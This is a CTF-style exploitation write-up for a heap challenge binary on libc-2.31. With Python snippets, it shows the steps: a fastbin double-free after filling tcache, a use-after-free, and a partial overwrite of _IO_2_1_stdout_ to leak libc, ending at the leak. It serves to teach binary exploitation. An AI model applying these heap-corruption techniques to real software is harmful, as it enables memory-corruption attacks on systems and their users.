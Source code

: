 ## Analyze & Exploit
<br />
There is no function for printing data. Only creating and editing is possible. <br />
For doing something, we have to leak libc, and it is possible by other ways. <br />
<br />

### Placing libc's address in chunks.
- This binary runs with libc-2.31.
- If we overwrite '_IO_2_1_stdout_' structure correctly, we can print '_IO_2_1_stdin_' address.
- For access structure address, we have to make libc's address to some chunks.
- When we make unsortedbin, it has main_arena's addr.
- By allocating a chunk smaller than the unsorted bin, sliced chunk also has main_arena's addr.
<br />

```python
buy(0x420 - 0x8)
buy(0x18)  # <- to prevent merging with the top chunk
refund(9)
buy(0x38)  # <- have main_arena addr
```
<br />

### Creating double-free in Fastbins
- For overwrite freed chunk, we need double-free.
- If we fill up tcachebins, then next freed chunk will go to fastbins.
- Just freed chunk twice not continuously, we can double free in fastbins.
<br />

```python
for i in range(7):
    refund(i)
refund(8)
refund(7)
refund(8)
```
<br />

### Leak libc's address
- If we allocate one chunk from fastbin, then all of other chunks in fastbin goes to tcache.
- After that, uaf is occuerd. Because new allocate one's addr is same with other one.
- By modifying that, we can make it to indicate special chunk(which contains main_arena addr).
- Also, we can modify main_arena's addr to stdout's structure addr. It's probability is about 1/16.
- After allocate few chunks, we can allocate chunk at stdout's structure addr. If we allocate it correctly, we can get stdin's structure addr.
<br />

```python
for i in range(7):
    buy(0x38)
buy(0x38)   # <- idx=7 / addr = 0x540
#There is uaf, but for increase number of chunk in tcachebins,
#buy two more and free other idx first.
buy(0x38)   # <- idx=8 / addr = 0x500
buy(0x38)   # <- idx=12 / addr = 0x540
refund(0)
refund(1)
refund(2)
refund(8)
refund(12)
edit(7, b'\x80')
buy(0x38)   # <- idx=0 / addr = 0x540

#leak libc_base by overwrite stdout structure. Probability is about 1/16
edit(9, b'\xa0\xe6')
```